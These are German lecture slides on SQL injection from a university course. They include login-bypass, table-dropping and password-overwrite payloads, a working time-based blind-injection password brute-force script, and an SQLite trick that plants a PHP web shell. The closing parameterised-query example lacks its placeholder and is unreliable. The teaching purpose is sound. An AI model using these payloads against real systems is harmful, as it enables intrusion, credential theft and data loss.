


<!-- Titelbild hier aendern:
     src: Bilddatei
     --title-image-width: Bild breiter/schmaler machen
     --title-image-right: negative Werte schieben nach rechts, positive nach links
     --title-image-top: negative Werte schieben nach oben, positive nach unten
     --title-image-object-position: Ausschnitt innerhalb der Bildbox verschieben -->
## SQL Injection {.title-slide data-state="hide-footer"}


Prof. Dr. Lukas Iffländer   
HTW Dresden  


---

## Agenda {.content-slide .agenda-slide}

<ul class="agenda">
<li class="agenda-item"><strong>01</strong><span>Grundidee</span></li>
<li class="agenda-item"><strong>02</strong><span>Bank-Login-Beispiel</span></li>
<li class="agenda-item"><strong>03</strong><span>Angriffsvarianten</span></li>
<li class="agenda-item"><strong>04</strong><span>Blinde SQL Injection</span></li>
<li class="agenda-item"><strong>05</strong><span>Remote Code Execution</span></li>
<li class="agenda-item"><strong>06</strong><span>Schutzmaßnahmen</span></li>
</ul>

---

## Lernziele {.content-slide .pdf-slide}

### Nach dieser Vorlesung können Sie:

1. SQL-Injection-Angriffe erkennen und erklären
2. verschiedene Arten von SQL Injection unterscheiden
3. verwundbaren Code identifizieren und sicher umschreiben
4. Schutzmaßnahmen wie parameterisiertes SQL und ORM anwenden

---

## SQL Injection {.content-slide .pdf-slide}

### Ziel

- Beliebige Queries auf einer Datenbank über eine verwundbare Anwendung ausführen
- sensible Daten aus einer Datenbank auslesen
- Datenbankinhalte modifizieren
- administrative Funktionen ausführen
- ggf. Befehle direkt im Betriebssystem ausführen

Wie alle Command Injections ist SQL Injection möglich, wenn eine Anwendung unsichere Nutzereingaben mit SQL-Query-Templates verknüpft.

---

## Beispiel: Bank Login {.image-slide .code-slide}



#### Code

```js
const { username, password } = req.body
const query = `SELECT * FROM users WHERE username = "${username}"`
const results = db.all(query)

if (results.length > 0) {
    // user exists!
    const user = results[0]
    if (user.password === password) {
        // success
    }
}
```

---

## Bank Login  {.content-slide .code-slide}
### gutartige Eingabe

#### SQL-Template

```sql
SELECT * FROM users WHERE username = "${username}"
```

#### Eingabe

```js
{ username: 'ifflaender' }
```

#### Resultierende Query

```sql
SELECT * FROM users WHERE username = "ifflaender"
```

---

## Bank Login  {.content-slide .code-slide}

### fragwürdige Eingabe I

#### SQL-Template

```sql
SELECT * FROM users WHERE username = "${username}"
```

#### Fragwürdige Eingabe

```js
{ username: 'ifflaender"' }
```

#### Resultierende Query

```sql
SELECT * FROM users WHERE username = "ifflaender""
```

---

## Bank Login  {.content-slide .code-slide}

### fragwürdige Eingabe II

#### SQL-Template

```sql
SELECT * FROM users WHERE username = "${username}"
```

#### Fragwürdige Eingabe

```js
{ username: 'ifflaender"--' } // -- is a SQL comment
```

#### Resultierende Query

```sql
SELECT * FROM users WHERE username = "ifflaender"--"
```

---

## Bank Login  {.content-slide .code-slide}
### bösartige Eingabe I

#### SQL Template
```js 
SELECT * FROM users WHERE username = "${username}"
```

#### Bösartige Eingabe

```js
{ username: 'ifflaender" OR 1=1 --' } // -- is a SQL comment
```

#### Resultierende Query

```sql
SELECT * FROM users WHERE username = "ifflaender" OR 1=1 --"
```

---

## Bank Login {.content-slide .code-slide}

###  bösartige Eingabe II

#### SQL Template
```js 
SELECT * FROM users WHERE username = "${username}"
```

#### Bösartige Eingabe

```js
{ username: '" OR 1=1 --' } // 1=1 is always true
```

### Resultierende Query

```sql
SELECT * FROM users WHERE username = "" OR 1=1 --"
```

---

## Bank Login {.content-slide .code-slide}

### Bösartige Eingabe: Step-by-Step

```js
const { username, password } = req.body
// { username: '" OR 1=1 --', password: '...' }

const query = `SELECT * FROM users WHERE username = "${username}"`
// SELECT * FROM users WHERE username = "" OR 1=1 --"

const results = db.all(query)
// all rows in the users table!

if (results.length > 0) {
    // will always be true!
}
```

---

## Bank Login {.content-slide .code-slide}

### Tabula Rasa

#### SQL-Template

```sql
SELECT * FROM users WHERE username = "${username}"
```

#### Bösartige Eingabe

```js
{ username: '"; drop table users --' } // ; is query terminator
```

#### Resultierende Query

```sql
SELECT * FROM users WHERE username = ""; drop table users --"
```

---

## App-Beispiel {.content-slide .code-slide}

### Verwundbarer Code

```js
app.post('/login', (req, res) => {
    const { username, password } = req.body
    const query =
        `SELECT * FROM users WHERE username = "${username}" AND password = "${password}"`

    db.get(query, (err, row) => {
        if (err) {
            console.error(err)
            res.send('fail!')
            return
        }
        if (!row) {
            res.send('fail!')
            return
        }
        /* Success */
    })
})
```

---

## App-Beispiel {.content-slide .code-slide}
### Verwundbarer Code

#### Template

```sql
SELECT * FROM users
WHERE username = "${username}" AND password = "${password}"
```

#### Bösartige Eingaben

- `bob" --`: als Benutzer bob anmelden
- `" OR 1=1 --`: als erster Benutzer anmelden
- `" OR balance > 1000000 --`: als erster Millionär anmelden

---

## Implementierungsbesonderheiten {.content-slide .code-slide}

```js
db.exec(`INSERT INTO logs VALUES ("Login attempt from ${username}")`)
```

- Anders als `db.get` kann `db.exec` mehrere Queries ausführen
- Nutzernamen ausprobieren (Passwort beliebig)

    - "); UPDATE users SET password = "root" WHERE username = "bob" --:
    - "); DROP TABLE users -- :


---

## Bobby Tables {.image-slide}



---

## Blinde SQL Injection {.content-slide .pdf-slide}

### Konzept

- Wenn die Datenbank keine Daten auf der Webseite ausgibt, muss ein Angreifer Daten durch eine Reihe wahrer oder falscher Fragen stehlen.
- Die Webanwendung kann allgemeine Fehlermeldungen anzeigen und trotzdem anfällig sein.

### Ziel

- Wahr-oder-falsch-Fragen an die Datenbank stellen und die Antwort anhand der Reaktion der Anwendung erraten.

- Blinde SQL Injection ist deutlich schwerer auszunutzen, aber nicht unmöglich.

---

## Blinde SQL Injection {.content-slide .code-slide}
### Arten

#### Inhaltsbasiert

- Die Anwendung gibt unterschiedliche Antworten basierend auf dem Inhalt der Antwort.

```js
if (content == "true") { ... }
```

#### Zeitbasiert

- Die Datenbank kurz warten lassen, wenn eine Bedingung erfüllt ist.
- Unterschiedliche Antwortzeiten können auf eine erfolgreiche Abfrage hinweisen.

---

## Zeitbasierte blinde SQL Injection {.content-slide .code-slide}

### Was herausfinden?

#### SQL Template

```sql
SELECT * FROM users WHERE username = "${username}"
```

#### Bösartige Eingabe

```js
{ username: 'alice" AND SUBSTR(password,1,1) = CHAR(112) --' }
```

#### Resultierende Query

```sql
SELECT * FROM users
WHERE username = "alice" AND SUBSTR(password,1,1) = CHAR(112) --"
```

---

## Zeitbasierte blinde SQL Injection {.content-slide .pdf-slide}

### Idee

- Erinnerung: Wir können die Antwort der Datenbank nicht direkt sehen und das Verhalten der Anwendung ist nicht sichtbar.
- Wir brauchen einen Weg, das Verhalten beobachtbar zu machen.
- Können wir die Anwendung dazu bringen, länger zu brauchen, wenn die Bedingung erfüllt ist?
    - Wenn ja, können wir den ersten Buchstaben erraten und das für die folgenden Buchstaben wiederholen.

---

## Zeitbasierte Blinde SQL Injection {.content-slide .code-slide}

### Umsetzungsmöglichkeiten

- Langsame SQL Query

```sql
SELECT 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(100000000/2))))
```

- Das SQL-Äquivalent einer if-Abfrage CASE nutzen, um die langsame Query nur auszulösen,
wenn die Antwort auf unsere Frage wahr ist:

```sql
SELECT CASE expression
  WHEN cond THEN slow
  ELSE speedy
END
```

---

## Zeitbasierte Umsetzung {.content-slide .code-slide}

#### Bösartige Eingabe

```js
{
  username: `alice" AND CASE SUBSTR(password,1,1)
    WHEN CHAR(112) THEN
      123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(100000000/2))))
    ELSE null
  END --`
}
```

#### Resultierende Query

```sql
SELECT * FROM users
WHERE username = "alice" AND CASE SUBSTR(password,1,1)
  WHEN CHAR(112) THEN
    123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(100000000/2))))
  ELSE null
END --"
```

---

## Zeitbasierte Blinde SQL Injection {.content-slide .code-slide}

### Passwort mit Brute-Force erraten

```js
const got = require('got')
const CHAR_START = 32 // space
const CHAR_END = 126 // tilde
const URL = 'http://localhost:8000/login'
const USERNAME = process.argv[2] || 'alice'
const TIME_THRESHOLD = 50

let password = ''

init()
```

---

## Zeitbasierte Blinde SQL Injection {.content-slide .code-slide}

### Passwort mit Brute-Force erraten

```js
async function init() {
    process.stdout.write('Trying')
    let char = CHAR_START

    while (char <= CHAR_END) {
        const position = password.length + 1
        const query = `${USERNAME}" AND CASE
            SUBSTR(password,${position},1) WHEN CHAR(${char}) THEN
            123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(100000000/2))))
            ELSE null END --`
```

---

## Zeitbasierte Blinde SQL Injection {.content-slide .code-slide}

### Passwort mit Brute-Force erraten

```js
        const time = await getResultWithTime(() => {
            return got(URL, {
                form: true,
                body: {
                    username: query,
                    password: ''
                }
            })
        })
```

---

## Zeitbasierte Blinde SQL Injection {.content-slide .code-slide}

### Passwort mit Brute-Force erraten

```js
        process.stdout.write(String.fromCharCode(char))
        if (time > TIME_THRESHOLD) {
            password += String.fromCharCode(char)
            console.log(' MATCH!')
            console.log(` Password: ${password}`)
            char = CHAR_START
            process.stdout.write('Trying')
        } else {
            char += 1
        }
    }
    console.log(`\n\nDONE. Password: ${password}`)
}
```

---

## Zeitbasierte Blinde SQL Injection {.content-slide .code-slide}

### Passwort mit Brute-Force erraten

```js
async function getResultWithTime(createPromise) {
    const startTime = Date.now()
    await createPromise()
    return Date.now() - startTime
}
```

---

## Anwendungsrechte {.content-slide .pdf-slide}

- Normale Nutzer und Administratoren nutzen die gleichen Pfade und Funktionen, um mit der Datenbank zu interagieren.
- Der Webserver bearbeitet alle Kontrollentscheidungen.
    - Entscheidet, welche Datenbankbefehle ausgeführt werden, basierend auf dem Account des Nutzers.
- SQL Injections modifizieren SQL Queries und umgehen so die Kontrollentscheidungen.
- Wie kann man das Design verbessern?

---

## Remote Code Execution {.content-slide .pdf-slide}

- Datenbank-Server ermöglichen oft, beliebige Shell-Befehle auszuführen.
- Microsoft SQL Server hat den Befehl `xp_cmdshell`, um eine Shell zu öffnen und den übergebenen Befehl auszuführen.
    - Die Konsolen-Ausgabe wird als Zeilen zurückgegeben.
- SQLite ist hier sicherer, aber nicht perfekt.

---

## Remote Code Execution mit SQLite {.content-slide .code-slide}

- SQLite kann keine Shell-Befehle direkt ausführen, ermöglicht aber das Erstellen neuer Datenbanken.

```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz)
VALUES ('<system($_GET["cmd"]); >'); --
```

- Kann genutzt werden, um eine Quellcode-Datei zu erstellen, die beim Abruf ausgeführt wird.

---

## Schutz {.content-slide .pdf-slide}

- **Niemals SQL Queries aus Nutzereingaben mit String-Konkatenation erstellen.**
- Stattdessen eine der folgenden Methoden nutzen:
  - parameterisiertes SQL
  - Object Relational Mapping (ORM)

---

## Parameterisiertes SQL {.content-slide .code-slide}

#### Verwundbarer Code

```js
const query = `SELECT * FROM users WHERE username = "${username}"`
const results = db.all(query)
```

#### Sicherer Code

```js
const query = 'SELECT * FROM users WHERE username = '
const results = db.all(query, username)
```

- Escapted automatisch nicht vertrauenswürdigen Input

---

## Object Relational Mapping {.content-slide .code-slide}

- ORMs abstrahieren die Datenbank in Objekte der entsprechenden Programmiersprache 
- Kümmert sich automatisch um Escaping und ähnliches 

```js
class User extends Model {
    static tableName = 'users'
}

const user = await User.query()
    .where('username', username)
    .where('password', password)
```

---

## Zusammenfassung {.content-slide .pdf-slide}

✓ SQL-Injection-Angriffe erkennen und erklären  

✓ klassische, blinde und zeitbasierte SQL Injection unterscheiden 

✓ verwundbaren Code identifizieren  

✓ Schutzmaßnahmen anwenden: parameterisiertes SQL und ORM  


**Kernbotschaft:** Niemals SQL Queries durch String-Konkatenation erstellen. Immer parameterisiertes SQL oder ORMs verwenden.

---

## Vielen Dank! {.title-slide data-state="hide-footer"}

SQL Injection

Prof. Dr. Lukas Iffländer   
HTW Dresden  


